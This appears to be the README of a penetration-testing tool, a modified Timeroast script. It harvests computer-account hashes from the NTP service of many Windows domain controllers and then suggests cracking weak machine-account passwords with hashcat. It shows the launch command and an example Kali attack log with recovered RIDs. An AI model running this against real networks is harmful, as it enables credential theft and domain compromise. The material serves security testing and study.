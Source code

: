 ## Информация / Information

Скрипт для циклического автоматизированного сбора хешей с большого количества серверов синхронизации времени контроллеров домена Microsoft Windows. Скрипт доработан на основе скрипта `https://github.com/SecuraBV/Timeroast`

A script for the cyclic automated collection of hashes from a large number of time synchronization servers of Microsoft Windows domain controllers. The script has been finalized based on the script `https://github.com/SecuraBV/Timeroast`

## Подготовка и запуск / Preparation and launch

Сохраните адреса контроллеров домена в файл, например: `file.txt`. 
Выполните следующую команду с вашего хоста указав аргумент `-f` - файл с контроллерами домена и `-o` - файл экспорта. 

Save the addresses of the domain controllers to a file, for example: `file.txt `. 
Run the following command from your host, specifying the argument `-f` for the domain controller file and `-o` for the export file.

Ниже приведен пример команды / The following is an example of a command:
```
python3 timeroast_gis.py -f file.txt -o export.txt
```

## Пример работы / Example of work
```

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 timeroast_gis.py -f file.txt -o export.txt

     ██████  ██ ███████  ███████ ██    ██ ██████  ███████  ██████  ████████ ███████    ██     ███    ███ 
    ██       ██ ██       ██       ██  ██  ██   ██ ██       ██   ██    ██    ██       ██  ██   ████  ████ 
    ██   ███ ██ ███████  ██         ██    █████   █████    ██████     ██    █████   ██    ██  ██ ████ ██ 
    ██    ██ ██      ██  ██         ██    ██   ██ ██       ██   ██    ██    ██      ████████  ██  ██  ██ 
     ██████  ██ ███████  ███████    ██    ███████ ███████  ██   ██    ██    ███████ ██    ██  ██      ██ 
    
Starting NTP Timeroast attack...

[+] Processing host 1/1: 10.10.10.2
    Checking RIDs 0-29999...
    Finished checking RIDs 0-29999.

    Checking RIDs 30000-59999...
    Finished checking RIDs 30000-59999.

    Checking RIDs 60000-89999...
        Found hash for RID 60018
        Found hash for RID 60027
        Found hash for RID 60061
        Found hash for RID 60062
        Found hash for RID 60069
        Found hash for RID 60070
```

## Дальнейшая эксплуатация / Further operation

При наличии в инфраструктуре хостов версии `Windows NT4` или хостов, введенных в домен с включенным чекбоксом `Assign this computer account as a pre-Windows 2000 computer`, можно подобрать пароли от компьютерных учетных записей через сгенерированный словарь по их имени. Для этого необходимо использовать [hashcat beta-версии](https://hashcat.net/beta/).
